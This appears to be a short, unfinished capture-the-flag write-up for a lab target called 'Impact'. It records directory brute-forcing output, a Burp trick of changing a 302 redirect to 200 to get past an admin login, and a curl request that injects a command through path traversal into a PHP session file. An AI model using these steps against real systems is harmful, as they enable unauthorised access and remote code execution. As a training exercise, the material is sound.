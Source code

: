 #+title: Impact
#+author: gabriel

* intro
A hacker group organises cyber attacks against companies and offers the sensitive data they obtain for sale with cryptocurrency on the website called "Impact". This hacker group is increasing the list of target companies every day. Your task is to register as an ordinary customer on this website and collect information about the hacker group and its manager. Good luck in your mission!

* info gathering
#+begin_src sh
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_impact_hv-1760458064.state ...
[#>------------------] - 2m     19591/270037  75m     found:21      errors:4932
[##>-----------------] - 2m      3978/30000   28/s    http://impact.hv/
[##>-----------------] - 2m      3689/30000   27/s    http://impact.hv/js/
[#>------------------] - 2m      1784/30000   13/s    http://impact.hv/uploads/
[##>-----------------] - 2m      3770/30000   28/s    http://impact.hv/css/
[#>------------------] - 2m      2323/30000   18/s    http://impact.hv/fonts/
[>-------------------] - 2m      1461/30000   11/s    http://impact.hv/webadmin/
#+end_src

Is possible to bypass the login page with the /webadmin/ page, when we access /webadmin/ we are redirect to the /webadmin/login

With Burp, if we modify the response status code from 302 to 200, we bypass the login page. Create a match



*admin email* ->
: zerotrace@secretmail.hv



*User agent injection ->*
: [11:10][]~ ✮ curl -v "http://impact.hv/search.php?name=../../../../../../../var/lib/php/sessions/sess_95j17bn4agoa0kql3k7mtl1o0f&cmd=sleep%2010"
